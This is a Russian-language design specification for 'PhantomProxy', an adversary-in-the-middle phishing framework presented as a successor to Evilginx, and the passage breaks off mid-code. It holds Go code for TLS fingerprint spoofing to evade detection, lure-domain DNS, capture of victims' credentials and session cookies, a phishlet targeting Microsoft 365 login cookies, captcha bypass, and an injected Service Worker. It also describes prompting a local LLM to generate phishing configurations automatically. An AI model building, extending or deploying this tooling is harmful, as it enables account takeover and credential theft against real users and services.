

# PhantomProxy: AitM-Фреймворк Нового Поколения
## Архитектурная Спецификация v1.0

**Дата:** 18 февраля 2026  
**Статус:** Draft  
**Автор:** Security Architecture Team

---

## 1. Executive Summary

**PhantomProxy** — это AitM (Adversary-in-the-Middle) фреймворк следующего поколения, разработанный на основе глубокого анализа Evilginx и его модификаций. Фреймворк устраняет ключевые архитектурные ограничения оригинала и интегрирует современные технологии 2025-2026 для максимальной скрытности и эффективности.

### Ключевые Улучшения над Evilginx

| Категория | Evilginx v3 | PhantomProxy |
|-----------|-------------|--------------|
| **Протоколы** | HTTP/1.1, HTTP/2 | HTTP/1.1, HTTP/2, **HTTP/3 (QUIC)** |
| **TLS Fingerprint** | Базовый | **Полный JA3/JA3S/JA4 spoofing** через utls |
| **Конфигурация** | Ручные YAML phishlets | **LLM-агент + автогенерация из трафика** |
| **WebSocket** | Отсутствует | **Нативная поддержка** |
| **Client-side** | Отсутствует | **Service Worker гибрид** |
| **JS Injection** | Статический | **Полиморфный движок** |
| **Bot Detection** | Базовый | **ML (ONNX) + поведенческий анализ** |
| **Масштабирование** | Single-instance | **Кластерная архитектура** |
| **БД** | SQLite | **SQLite + PostgreSQL + Redis** |
| **Капча** | Ручной обход | **Real browser + JS подмена** |

### Архитектурные Принципы

1. **Zero Trust к клиенту** — каждый запрос верифицируется через ML-модель
2. **Адаптивность** — конфигурации генерируются автоматически
3. **Гибридность** — сочетание классического прокси и Service Worker
4. **OPSEC First** — минимизация индикаторов компрометации
5. **Cloud-Native** — готовность к развёртыванию в кластере

---

## 2. Архитектурная Схема



### ASCII Версия (для терминала)

```
┌─────────────────────────────────────────────────────────────────────────┐
│                         VICTIM LAYER                                    │
│  ┌──────────────┐         ┌──────────────┐                             │
│  │   Browser    │◄───────►│ Service Worker│                            │
│  │   (Victim)   │         │  (Optional)  │                             │
│  └──────────────┘         └──────────────┘                             │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                         EDGE LAYER                                      │
│  ┌──────────────────────────────────────────────────────────────────┐  │
│  │              Cloudflare Workers (Optional Masking)               │  │
│  └──────────────────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                      PHANTOMPROXY CORE                                  │
│                                                                         │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                      ENTRY POINT                                │   │
│  │  ┌─────────────┐  ┌─────────────────────────────────────────┐   │   │
│  │  │ Load        │  │ TLS Terminator (utls JA3/JA3S Spoofing) │   │   │
│  │  │ Balancer    │─►│  • Chrome 133, Firefox 120, Safari 16   │   │   │
│  │  │             │  │  • Randomized fingerprints              │   │   │
│  │  └─────────────┘  └─────────────────────────────────────────┘   │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                   PROTOCOL HANDLERS                             │   │
│  │  ┌────────────┐  ┌────────────┐  ┌────────────────────┐        │   │
│  │  │ HTTP/2     │  │ HTTP/3     │  │ WebSocket          │        │   │
│  │  │ Handler    │  │ QUIC       │  │ Proxy              │        │   │
│  │  └────────────┘  └────────────┘  └────────────────────┘        │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                    SECURITY CORE                                │   │
│  │  ┌─────────────┐  ┌─────────────┐  ┌────────────────────┐      │   │
│  │  │ JA3/JA3S    │  │ ML Bot      │  │ Behavioral         │      │   │
│  │  │ Analyzer    │─►│ Detector    │─►│ Heuristics         │      │   │
│  │  │             │  │ (ONNX)      │  │                    │      │   │
│  │  └─────────────┘  └─────────────┘  └────────────────────┘      │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                          ┌─────────┴─────────┐                         │
│                          │   Clean Traffic   │                         │
│                          ▼                   │                         │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                  PROCESSING ENGINE                              │   │
│  │  ┌─────────────┐  ┌─────────────┐  ┌────────────────────┐      │   │
│  │  │ Phishlet    │  │ Polymorphic │  │ Auto-Adaptation    │      │   │
│  │  │ Engine      │─►│ JS Engine   │─►│ Module             │      │   │
│  │  │             │  │             │  │                    │      │   │
│  │  └─────────────┘  └─────────────┘  └────────────────────┘      │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                    BROWSER FARM                                 │   │
│  │  ┌─────────────────────────────────────────────────────────┐   │   │
│  │  │  Playwright Pool (reCAPTCHA/hCaptcha Solver)            │   │   │
│  │  │  • Headful browsers с реальными fingerprint            │   │   │
│  │  │  • Автоматический обход капч                           │   │   │
│  │  └─────────────────────────────────────────────────────────┘   │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                     DATA LAYER                                  │   │
│  │  ┌─────────────┐  ┌─────────────┐  ┌────────────────────┐      │   │
│  │  │ Redis       │  │ PostgreSQL/ │  │ Encrypted Vault    │      │   │
│  │  │ (Sessions)  │  │ SQLite      │  │ (AES-256 Logs)     │      │   │
│  │  └─────────────┘  └─────────────┘  └────────────────────┘      │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                    MANAGEMENT                                   │   │
│  │  ┌─────────────┐  ┌─────────────┐  ┌────────────────────┐      │   │
│  │  │ REST/gRPC   │  │ Web         │  │ Telegram/          │      │   │
│  │  │ API         │  │ Dashboard   │  │ Discord Bot        │      │   │
│  │  └─────────────┘  └─────────────┘  └────────────────────┘      │   │
│  └─────────────────────────────────────────────────────────────────┘   │
│                                    │                                    │
│                                    ▼                                    │
│  ┌─────────────────────────────────────────────────────────────────┐   │
│  │                    INTELLIGENCE                                 │   │
│  │  ┌─────────────┐  ┌─────────────────────────────────────────┐  │   │
│  │  │ LLM Agent   │  │ Config Generator                        │  │   │
│  │  │ (Ollama)    │─►│ (Auto-generate from traffic/LLM)        │  │   │
│  │  └─────────────┘  └─────────────────────────────────────────┘  │   │
│  └─────────────────────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────────────────────┘
                                    │
                                    ▼
┌─────────────────────────────────────────────────────────────────────────┐
│                         TARGET LAYER                                    │
│  ┌──────────────────────────────────────────────────────────────────┐  │
│  │         Целевой Сервис (Microsoft 365 / Google / etc.)           │  │
│  └──────────────────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────────────────┘
```

---

## 3. Детальное Описание Компонентов

### 3.1 Ядро (Core Engine)

#### 3.1.1 Язык Реализации: Go

**Обоснование выбора:**
- **Производительность**: Нативная многопоточность (goroutines) для обработки тысяч сессий
- **Безопасность**: Статическая типизация, отсутствие runtime ошибок
- **Экосистема**: Готовые библиотеки для TLS (utls), HTTP/2, QUIC
- **Портативность**: Статические бинарники для Linux/Windows/macOS
- **Наследие**: Совместимость с кодовой базой Evilginx

#### 3.1.2 Поддержка Протоколов

```go
// Структура протокольных хендлеров
type ProtocolHandler interface {
    Handle(conn net.Conn) error
    GetStats() ProtocolStats
}

// HTTP/2 Handler
type HTTP2Handler struct {
    server *http2.Server
    tlsConfig *utls.Config
}

// HTTP/3 QUIC Handler
type HTTP3Handler struct {
    quicConfig *quic.Config
    listener   quic.Listener
}

// WebSocket Handler
type WebSocketHandler struct {
    upgrader   websocket.Upgrader
    mapper     *DomainMapper
}
```

**Ключевые библиотеки:**
| Компонент | Библиотека | Версия |
|-----------|------------|--------|
| TLS Spoofing | `github.com/refraction-networking/utls` | v1.6+ |
| HTTP/2 | `golang.org/x/net/http2` | v0.20+ |
| HTTP/3 QUIC | `github.com/quic-go/quic-go` | v0.40+ |
| WebSocket | `github.com/gorilla/websocket` | v1.5+ |
| HTTP Server | `github.com/gofiber/fiber/v2` | v2.50+ |

#### 3.1.3 TLS Fingerprint Spoofing Module

**Назначение:** Эмуляция TLS-отпечатков реальных браузеров для обхода детекта.

**Техническая реализация:**

```go
package tls_spoof

import (
    tls "github.com/refraction-networking/utls"
    "crypto/rand"
)

// TLSProfile определяет профиль браузера
type TLSProfile struct {
    ID           string
    ClientHello  tls.ClientHelloID
    Priority     int
    SuccessRate  float64
}

// SpoofedConnection обёртка над utls.UConn
type SpoofedConnection struct {
    *tls.UConn
    Profile *TLSProfile
}

// TLSManager управляет пулом профилей
type TLSManager struct {
    profiles []*TLSProfile
    roller   *tls.Roller
    current  *TLSProfile
}

// Доступные профили (2025-2026)
var BrowserProfiles = map[string]*TLSProfile{
    "chrome_133": {
        ID: "chrome_133",
        ClientHello: tls.HelloChrome_133,
        Priority: 100,
    },
    "chrome_131_pq": {
        ID: "chrome_131_pq",
        ClientHello: tls.HelloChrome_131, // С post-quantum support
        Priority: 95,
    },
    "firefox_120": {
        ID: "firefox_120",
        ClientHello: tls.HelloFirefox_120,
        Priority: 90,
    },
    "safari_16": {
        ID: "safari_16",
        ClientHello: tls.HelloSafari_16_0,
        Priority: 85,
    },
    "randomized": {
        ID: "randomized",
        ClientHello: tls.HelloRandomizedALPN,
        Priority: 50, // Fallback
    },
}

// NewSpoofedConnection создаёт соединение с подменным fingerprint
func (m *TLSManager) NewSpoofedConnection(conn net.Conn, serverName string) (*SpoofedConnection, error) {
    // Выбор профиля на основе статистики успешности
    profile := m.selectBestProfile()
    
    config := &tls.Config{
        ServerName: serverName,
        MinVersion: tls.VersionTLS12,
    }
    
    uConn := tls.UClient(conn, config, profile.ClientHello)
    
    // Применение fake session tickets для сокрытия полного handshake
    if m.shouldUseSessionTicket() {
        sessionState := m.generateFakeSessionTicket()
        uConn.SetSessionState(sessionState)
    }
    
    return &SpoofedConnection{
        UConn:   uConn,
        Profile: profile,
    }, nil
}

// GetJA3Fingerprint возвращает JA3-отпечаток текущего профиля
func (sc *SpoofedConnection) GetJA3Fingerprint() string {
    spec := sc.UConn.GetClientHelloSpec()
    return calculateJA3(spec)
}

// GetJA3SFingerprint возвращает JA3S-отпечаток (серверная сторона)
func (sc *SpoofedConnection) GetJA3SFingerprint() string {
    return calculateJA3S(sc.ConnectionState())
}
```

**Механизм ротации профилей:**

```go
// ProfileRotator автоматически переключает профили при детекте блокировки
type ProfileRotator struct {
    mu          sync.RWMutex
    profiles    []*TLSProfile
    blacklist   map[string]time.Time
    cooldown    time.Duration
}

func (r *ProfileRotator) SelectProfile(exclude string) *TLSProfile {
    r.mu.RLock()
    defer r.mu.RUnlock()
    
    candidates := make([]*TLSProfile, 0)
    for _, p := range r.profiles {
        if p.ID == exclude {
            continue
        }
        if _, blocked := r.blacklist[p.ID]; blocked {
            continue
        }
        candidates = append(candidates, p)
    }
    
    if len(candidates) == 0 {
        // Все профили заблокированы, используем рандомизированный
        return BrowserProfiles["randomized"]
    }
    
    // Выбор на основе priority + success rate
    return weightedRandom(candidates)
}
```

#### 3.1.4 Встроенный DNS-сервер

**Назначение:** Обработка wildcard-доменов и автоматическая генерация DNS-записей.

```go
package dns_server

import (
    "github.com/miekg/dns"
)

// DNSServer обрабатывает DNS-запросы для фишинговых доменов
type DNSServer struct {
    server      *dns.Server
    records     map[string]*DNSRecord
    wildcardMap map[string]string // *.domain.com -> target
}

type DNSRecord struct {
    Type     uint16
    Value    string
    TTL      uint32
    Priority uint16 // Для MX записей
}

// Обработчик DNS-запросов
func (s *DNSServer) handleDNS(w dns.ResponseWriter, r *dns.Msg) {
    m := new(dns.Msg)
    m.SetReply(r)
    
    qname := r.Question[0].Name
    
    // Проверка wildcard записей
    if target, ok := s.matchWildcard(qname); ok {
        s.addAnswer(m, target)
    } else if record, ok := s.records[qname]; ok {
        s.addAnswer(m, record.Value)
    } else {
        // NXDOMAIN для неизвестных доменов
        m.Rcode = dns.RcodeNameError
    }
    
    w.WriteMsg(m)
}

// Автоматическая генерация wildcard записи для lure
func (s *DNSServer) RegisterLureDomain(subdomain, targetIP string) {
    s.wildcardMap[subdomain] = targetIP
    s.records[subdomain] = &DNSRecord{
        Type: dns.TypeA,
        Value: targetIP,
        TTL:  300, // 5 минут
    }
}
```

#### 3.1.5 Многопоточная Архитектура

**Модель обработки сессий:**

```go
package core

import (
    "context"
    "sync"
    "golang.org/x/sync/semaphore"
)

// SessionManager управляет тысячами одновременных сессий
type SessionManager struct {
    mu          sync.RWMutex
    sessions    map[string]*Session
    sem         *semaphore.Weighted // Ограничение одновременных сессий
    maxSessions int64
}

type Session struct {
    ID          string
    VictimIP    string
    TargetURL   string
    State       SessionState
    Credentials *Credentials
    Cookies     []*http.Cookie
    CreatedAt   time.Time
    LastActive  time.Time
}

// Обработка новой сессии
func (m *SessionManager) HandleSession(ctx context.Context, conn net.Conn) error {
    // Проверка лимита сессий
    if !m.sem.TryAcquire(1) {
        return ErrMaxSessionsReached
    }
    defer m.sem.Release(1)
    
    session := m.createSession(conn)
    m.sessions[session.ID] = session
    
    defer func() {
        m.mu.Lock()
        delete(m.sessions, session.ID)
        m.mu.Unlock()
    }()
    
    // Обработка в goroutine
    go session.Process(ctx)
    
    return nil
}

// Session Pool для переиспользования объектов
type SessionPool struct {
    pool sync.Pool
}

func NewSessionPool() *SessionPool {
    return &SessionPool{
        pool: sync.Pool{
            New: func() interface{} {
                return &Session{
                    Cookies: make([]*http.Cookie, 0, 10),
                }
            },
        },
    }
}

func (p *SessionPool) Get() *Session {
    return p.pool.Get().(*Session)
}

func (p *SessionPool) Put(s *Session) {
    s.Reset() // Сброс состояния
    p.pool.Put(s)
}
```

---

### 3.2 Система Конфигурации (взамен Phishlets)

#### 3.2.1 Проблемы Оригинальных Phishlets

1. **Ручное создание** — каждый сайт требует ручного YAML
2. **Хрупкость** — изменения на сайте ломают конфиг
3. **Нет валидации** — ошибки обнаруживаются в runtime
4. **Сложность** — требует знания XPath, regex, MIME-типов

#### 3.2.2 Новый Формат: Dynamic Phishlet v2

**Структура конфига:**

```yaml
# phantom_phishlet.yaml
meta:
  id: "microsoft365_v2"
  target: "login.microsoftonline.com"
  author: "llm_agent"
  created: "2026-02-18T10:30:00Z"
  min_version: "1.0.0"
  
# Автоматически сгенерированные proxy_hosts
proxy_hosts:
  - phish_sub: ""
    orig_sub: "login"
    domain: "microsoftonline.com"
    session: true
    is_landing: true
    auto_filter: true
    
  - phish_sub: "api"
    orig_sub: "api"
    domain: "microsoft.com"
    session: false
    is_landing: false

# Правила подмены (генерируются автоматически)
substitution_rules:
  - trigger_domains: ["login.microsoftonline.com"]
    patterns:
      - type: "string"
        search: "login.microsoftonline.com"
        replace: "{hostname}"
      - type: "regex"
        search: "https?://login\\.microsoftonline\\.com"
        replace: "https://{hostname}"
    mime_types: ["text/html", "application/json", "application/javascript"]

# Токены аутентификации (авто-детект)
auth_tokens:
  auto_detect: true
  patterns:
    - cookie_pattern: "ESTSAUTH.*"
      required: true
    - cookie_pattern: "SignInCookies"
      required: false

# Креденшалы (извлекаются из анализа форм)
credentials:
  fields:
    - name: "username"
      selector: "input[type='email']"
      extract: "value"
    - name: "password"
      selector: "input[type='password']"
      extract: "value"
  post_path: "/common/oauth2/v2.0/token"

# URLs успешной аутентификации
auth_urls:
  - "/common/oauth2/authorize"
  - "/kmsi"
  
# JavaScript инъекции (генерируются LLM)
js_injections:
  - triggers:
      domains: ["login.microsoftonline.com"]
      paths: ["/common/oauth2/v2.0/authorize"]
    params: ["prefilled_email"]
    script: |
      (function() {
        var emailField = document.querySelector('input[type="email"]');
        if (emailField) {
          emailField.value = "{prefilled_email}";
          emailField.dispatchEvent(new Event('input', { bubbles: true }));
        }
      })();

# Обход защит
evasion:
  captcha_solver: "playwright"
  bot_detection_bypass: true
  fingerprint_override: "chrome_133"
```

#### 3.2.3 LLM-Агент для Автогенерации Конфигов

**Архитектура агента:**

```go
package llm_agent

import (
    "context"
    "github.com/ollama/ollama/api"
)

// ConfigGeneratorAgent использует LLM для создания phishlet
type ConfigGeneratorAgent struct {
    ollamaClient *api.Client
    model        string // "llama3.2" или "mistral"
    templates    []*PromptTemplate
}

type PromptTemplate struct {
    Name        string
    SystemPrompt string
    UserTemplate string
}

// GenerateConfig анализирует сайт и создаёт конфиг
func (a *ConfigGeneratorAgent) GenerateConfig(ctx context.Context, targetURL string) (*Phishlet, error) {
    // Шаг 1: Сбор информации о сайте
    siteInfo, err := a.crawlTarget(ctx, targetURL)
    if err != nil {
        return nil, err
    }
    
    // Шаг 2: Формирование промпта для LLM
    prompt := a.buildPrompt(siteInfo)
    
    // Шаг 3: Запрос к LLM
    llmResponse, err := a.ollamaClient.Generate(ctx, &api.GenerateRequest{
        Model:  a.model,
        Prompt: prompt,
        Stream: new(bool),
    })
    if err != nil {
        return nil, err
    }
    
    // Шаг 4: Парсинг YAML из ответа LLM
    phishlet, err := parsePhishletFromYAML(llmResponse.Response)
    if err != nil {
        return nil, err
    }
    
    // Шаг 5: Валидация конфига
    if err := a.validatePhishlet(phishlet); err != nil {
        return nil, err
    }
    
    return phishlet, nil
}

// Промпт для LLM
func (a *ConfigGeneratorAgent) buildPrompt(info *SiteInfo) string {
    return fmt.Sprintf(`
Ты — эксперт по безопасности, создающий конфигурацию для AitM-фреймворка.

Проанализируй следующую информацию о целевом сайте:

URL: %s
Заголовки: %v
Формы: %v
JavaScript файлы: %v
API endpoints: %v

Создай YAML-конфигурацию в формате PhantomProxy Phishlet v2, включающую:
1. proxy_hosts — все поддомены для проксирования
2. substitution_rules — правила замены доменов
3. auth_tokens — cookie сессии
4. credentials — поля логина/пароля
5. js_injections — скрипты для автозаполнения

Формат вывода — только YAML, без объяснений.
`, info.URL, info.Headers, info.Forms, info.JSFiles, info.APIEndpoints)
}
```

**Автоматический краулер для сбора информации:**

```go
type SiteCrawler struct {
    client     *http.Client
    maxDepth   int
    visited    map[string]bool
}

type SiteInfo struct {
    URL         string
    Headers     map[string][]string
    Forms       []*FormInfo
    JSFiles     []string
    APIEndpoints []string
    Cookies     []*http.Cookie
}

type FormInfo struct {
    Action      string
    Method      string
    Inputs      []*InputInfo
}

type InputInfo struct {
    Name       string
    Type       string
    Required   bool
    Selector   string // CSS selector
}

// Crawl анализирует сайт и извлекает информацию
func (c *SiteCrawler) Crawl(ctx context.Context, url string) (*SiteInfo, error) {
    info := &SiteInfo{
        URL:      url,
        Forms:    make([]*FormInfo, 0),
        JSFiles:  make([]string, 0),
        APIEndpoints: make([]string, 0),
    }
    
    req, _ := http.NewRequestWithContext(ctx, "GET", url, nil)
    resp, err := c.client.Do(req)
    if err != nil {
        return nil, err
    }
    defer resp.Body.Close()
    
    info.Headers = resp.Header
    info.Cookies = resp.Cookies()
    
    // Парсинг HTML
    doc, err := goquery.NewDocumentFromReader(resp.Body)
    if err != nil {
        return nil, err
    }
    
    // Извлечение форм
    doc.Find("form").Each(func(i int, s *goquery.Selection) {
        form := &FormInfo{
            Action: s.AttrOr("action", url),
            Method: s.AttrOr("method", "POST"),
            Inputs: make([]*InputInfo, 0),
        }
        
        s.Find("input, select, textarea").Each(func(j int, input *goquery.Selection) {
            form.Inputs = append(form.Inputs, &InputInfo{
                Name:     input.AttrOr("name", ""),
                Type:     input.AttrOr("type", "text"),
                Required: input.HasAttr("required"),
                Selector: getCSSSelector(input),
            })
        })
        
        info.Forms = append(info.Forms, form)
    })
    
    // Извлечение JS файлов
    doc.Find("script[src]").Each(func(i int, s *goquery.Selection) {
        if src, ok := s.Attr("src"); ok {
            info.JSFiles = append(info.JSFiles, src)
        }
    })
    
    // Анализ JS на наличие API endpoints
    for _, jsFile := range info.JSFiles {
        endpoints := a.extractAPIEndpointsFromJS(jsFile)
        info.APIEndpoints = append(info.APIEndpoints, endpoints...)
    }
    
    return info, nil
}
```

#### 3.2.4 Auto-Adaptation Module

**Назначение:** Автоматическая коррекция конфига при изменении сайта.

```go
package adaptation

type AutoAdaptationModule struct {
    llmAgent    *ConfigGeneratorAgent
    errorLog    *ErrorMonitor
    configStore *ConfigStore
}

type ErrorMonitor struct {
    errors      []*RuntimeError
    patterns    map[string]int // Частота ошибок
}

type RuntimeError struct {
    Timestamp   time.Time
    PhishletID  string
    ErrorType   string // "selector_not_found", "api_changed", etc.
    Details     string
    RawRequest  string
    RawResponse string
}

// Monitor анализирует ошибки и предлагает исправления
func (m *AutoAdaptationModule) Monitor(ctx context.Context) {
    ticker := time.NewTicker(5 * time.Minute)
    defer ticker.Stop()
    
    for {
        select {
        case <-ctx.Done():
            return
        case <-ticker.C:
            m.checkForAdaptation()
        }
    }
}

func (m *AutoAdaptationModule) checkForAdaptation() {
    // Группировка ошибок по phishlet
    errorsByPhishlet := m.groupErrorsByPhishlet()
    
    for phishletID, errors := range errorsByPhishlet {
        // Если больше 5 ошибок за 10 минут — нужна адаптация
        if len(errors) > 5 {
            m.triggerAdaptation(phishletID, errors)
        }
    }
}

func (m *AutoAdaptationModule) triggerAdaptation(phishletID string, errors []*RuntimeError) {
    // Запрос к LLM для анализа ошибок и генрации исправлений
    prompt := m.buildAdaptationPrompt(phishletID, errors)
    
    correctedConfig, err := m.llmAgent.GenerateFix(prompt)
    if err != nil {
        log.Printf("Adaptation failed: %v", err)
        return
    }
    
    // Применение исправлений
    m.configStore.Update(phishletID, correctedConfig)
    
    // Уведомление оператора
    notifyOperator("Phishlet %s auto-adapted", phishletID)
}
```

---

### 3.3 Механизмы Перехвата

#### 3.3.1 Классический HTTP/HTTPS Прокси

**Архитектура наследуется от Evilginx с улучшениями:**

```go
package proxy

type HTTPProxy struct {
    server      *http.Server
    tlsManager  *tls_spoof.TLSManager
    phishlet    *Phishlet
    sessionMgr  *SessionManager
}

// Обработка запроса
func (p *HTTPProxy) ServeHTTP(w http.ResponseWriter, r *http.Request) {
    session := p.sessionMgr.GetOrCreateSession(r)
    
    // Модификация запроса
    modifiedReq := p.modifyRequest(r, session)
    
    // Проксирование на целевой сервер
    resp, err := p.forwardRequest(modifiedReq)
    if err != nil {
        http.Error(w, "Proxy error", http.StatusBadGateway)
        return
    }
    defer resp.Body.Close()
    
    // Модификация ответа
    modifiedResp := p.modifyResponse(resp, session)
    
    // Отправка ответа клиенту
    p.writeResponse(w, modifiedResp)
}

// Модификация запроса: замена доменов, добавление headers
func (p *HTTPProxy) modifyRequest(r *http.Request, session *Session) *http.Request {
    clonedReq := r.Clone(r.Context())
    
    // Замена Host header
    clonedReq.Host = p.getOriginalHost(r.Host)
    
    // Замена Referer
    if referer := clonedReq.Referer(); referer != "" {
        clonedReq.Header.Set("Referer", p.replaceDomain(referer))
    }
    
    // Добавление оригинальных cookies
    for _, cookie := range session.Cookies {
        clonedReq.AddCookie(cookie)
    }
    
    return clonedReq
}

// Модификация ответа: замена доменов, инъекция JS
func (p *HTTPProxy) modifyResponse(resp *http.Response, session *Session) *http.Response {
    clonedResp := resp.Clone(resp.Request.Context())
    
    contentType := resp.Header.Get("Content-Type")
    
    // Замена доменов в теле ответа
    if strings.Contains(contentType, "text/html") ||
       strings.Contains(contentType, "application/javascript") ||
       strings.Contains(contentType, "application/json") {
        
        body, _ := io.ReadAll(resp.Body)
        modifiedBody := p.applySubFilters(body, session)
        
        // Инъекция JS
        if strings.Contains(contentType, "text/html") {
            modifiedBody = p.injectJavaScript(modifiedBody, session)
        }
        
        clonedResp.Body = io.NopCloser(bytes.NewReader(modifiedBody))
        clonedResp.ContentLength = int64(len(modifiedBody))
    }
    
    // Замена Set-Cookie доменов
    for _, cookie := range clonedResp.Cookies() {
        cookie.Domain = p.getPhishDomain(cookie.Domain)
    }
    
    return clonedResp
}
```

#### 3.3.2 WebSocket Прокси

**Реализация на основе evilginx-websocket-proxy с улучшениями:**

```go
package websocket

import (
    "github.com/gorilla/websocket"
)

// WSProxy перехватывает WebSocket соединения
type WSProxy struct {
    upgrader   websocket.Upgrader
    domainMapper *DomainMapper
    sessionMgr  *SessionManager
}

type DomainMapper struct {
    clientDomain string // dev.example.local
    serverDomain string // api.example.com
}

// HandleWS обрабатывает WebSocket подключение
func (p *WSProxy) HandleWS(w http.ResponseWriter, r *http.Request) {
    session := p.sessionMgr.GetSession(r)
    
    // Upgrade до WebSocket на стороне клиента
    clientConn, err := p.upgrader.Upgrade(w, r, nil)
    if err != nil {
        return
    }
    defer clientConn.Close()
    
    // Подключение к целевому серверу
    targetURL := p.buildTargetURL(r)
    serverConn, _, err := websocket.DefaultDialer.Dial(targetURL, r.Header)
    if err != nil {
        return
    }
    defer serverConn.Close()
    
    // Логирование подключения
    logWSConnection(session, r)
    
    // Двусторонняя пересылка
    done := make(chan struct{})
    
    go func() {
        p.relayClientToServer(clientConn, serverConn, session)
        close(done)
    }()
    
    go func() {
        p.relayServerToClient(serverConn, clientConn, session)
        close(done)
    }()
    
    <-done
}

// Ретрансляция клиент -> сервер с ремаппингом доменов
func (p *WSProxy) relayClientToServer(client, server *websocket.Conn, session *Session) {
    for {
        messageType, message, err := client.ReadMessage()
        if err != nil {
            return
        }
        
        // Логирование
        logWSMessage("client->server", message, session)
        
        // Ремаппинг доменов в сообщении
        modifiedMessage := p.domainMapper.ReplaceDomains(message)
        
        err = server.WriteMessage(messageType, modifiedMessage)
        if err != nil {
            return
        }
    }
}

// Ретрансляция сервер -> клиент с ремаппингом доменов
func (p *WSProxy) relayServerToClient(server, client *websocket.Conn, session *Session) {
    for {
        messageType, message, err := server.ReadMessage()
        if err != nil {
            return
        }
        
        // Логирование
        logWSMessage("server->client", message, session)
        
        // Ремаппинг доменов в сообщении
        modifiedMessage := p.domainMapper.ReplaceDomains(message)
        
        err = client.WriteMessage(messageType, modifiedMessage)
        if err != nil {
            return
        }
    }
}

// DomainMapper заменяет домены в WebSocket сообщениях
func (m *DomainMapper) ReplaceDomains(data []byte) []byte {
    // Попытка парсинга как JSON
    var jsonData map[string]interface{}
    if err := json.Unmarshal(data, &jsonData); err == nil {
        m.replaceInJSON(jsonData)
        result, _ := json.Marshal(jsonData)
        return result
    }
    
    // Замена в строке
    text := string(data)
    text = strings.ReplaceAll(text, m.serverDomain, m.clientDomain)
    return []byte(text)
}
```

#### 3.3.3 Гибридный Режим с Service Worker

**Архитектура на основе EvilWorker:**

```go
package serviceworker

// SWHybridManager управляет гибридным режимом
type SWHybridManager struct {
    proxyServer  *HTTPProxy
    swTemplate   []byte
    injector     *JSInjector
}

// ServiceWorkerTemplate генерируется динамически
const ServiceWorkerTemplate = `
const PROXY_CONFIG = {
    entryPoint: '%s',
    targetParam: '%s',
    proxyPathnames: {
        serviceWorker: '%s',
        script: '%s',
    }
};

self.addEventListener('fetch', (event) => {
    const url = new URL(event.request.url);
    
    // Пропускаем собственные запросы
    if (url.pathname.startsWith(PROXY_CONFIG.proxyPathnames.serviceWorker)) {
        return;
    }
    
    // Извлекаем целевой URL из параметра
    const targetUrl = url.searchParams.get(PROXY_CONFIG.targetParam);
    if (!targetUrl) {
        return;
    }
    
    // Перенаправляем запрос через прокси
    const proxyUrl = PROXY_CONFIG.entryPoint + '?redirect=' + encodeURIComponent(event.request.url);
    
    event.respondWith(
        fetch(proxyUrl, {
            method: event.request.method,
            headers: event.request.headers,
            body: event.request.body
        })
    );
});
`

// InjectServiceWorker регистрирует SW в браузере жертвы
func (m *SWHybridManager) InjectServiceWorker(html []byte, session *Session) []byte {
    // Добавляем скрипт регистрации перед </body>
    registrationScript := fmt.Sprintf(`
<script>
if ('serviceWorker' in navigator) {
    navigator.serviceWorker.register('%s')
        .then((registration) => {
            console.log('SW registered:', registration);
        })
        .catch((error) => {
            console.log('SW registration failed:', error);
        });
}
</script>
`, m.swTemplate)
    
